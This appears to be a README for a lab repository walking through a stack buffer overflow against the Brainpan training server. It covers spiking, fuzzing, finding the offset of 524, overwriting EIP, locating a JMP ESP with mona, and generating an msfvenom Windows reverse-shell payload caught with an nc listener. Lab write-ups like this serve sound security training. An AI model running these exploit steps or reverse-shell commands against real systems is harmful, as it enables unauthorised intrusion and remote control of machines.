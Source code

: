 <h1>Hacksudo Brainpan BOF server </h1>
visit brainpan 1 box walktrhough 
https://leetvilu.blogspot.com/2021/03/brainpan-1-box-walkktrhough-hacksudocom.html
<br>youtube channel:- https://youtube.com/hackshala
<h2>Steps</h2></br>
All BOF step are given bellow check it 
<h3>1 spiking</n>
<br>2 fuzzing</n>
<br>3 finding the offset
<br>4 overwriting the EIP
<br>5 finding bad characters
<br>6 finding the right modules
<br>7 Generating Shellcode</h3></br></br></br></br></br>
<h2>1 Spiking </h2>
First make sure Your firewall real protection turn off
Now run brainpan server as admin
use your spiking.spk to find Vulnerability 
script is --> 
<b> s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server crash ? boom you  succeed 

<h2> 2 fuzzing</h2>
Now time to find Number of size buffer which crash server 
(use chmod +x * )
 ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
Now create pattern , why ? to find exact number of Buffer size
First create unic pattern using metasploit tool
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
 Now use offsetcalc.py to find lenght which you will use later to  find offset which is our exact buffer size in byte :D 
 ./offsetcalc.py IP PORT
get EIP value ? now use it at offset

<h2> 3 finding the offset</h2>
find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
 boom ?? we get Exact Number of size which is 524

<h2>4. overwriting the EIP</h2>
Now Verify EIP Overwrite, add B*4 and check debuger print 42424242 at EIP 
./brainpanEIPWt.py IP PORT
 YES --> ok great

<h2>5. finding bad characters</h2>
Now find Bad chars which is use while create shellcode , actualy  we dont need to find  bad chars in this servers, but dont skip this step go head
and just do practice ;) 
 ./brainpanBadChard.py IP PORT
remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you 
https://instagram.com/realvilu
:)

<h2>6. finding the right modules</h2>
Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place
use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
now find base value note it down
and make sure ur JMP ESP Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 

fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode
control EIP done

<h2>7. Generating Shellcode</h2>
now generarte shellcode 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)

"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
make sure your nc is ready
 nc -lvnp 443 
and now fire your final code 
./finalexploit.py IP PORT

boom you will get shell 
if not then sorry please recheck all step clearly 
thanks i hope you love this repo :D 
<h1>love you guys thanks for watching </h1>
<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>
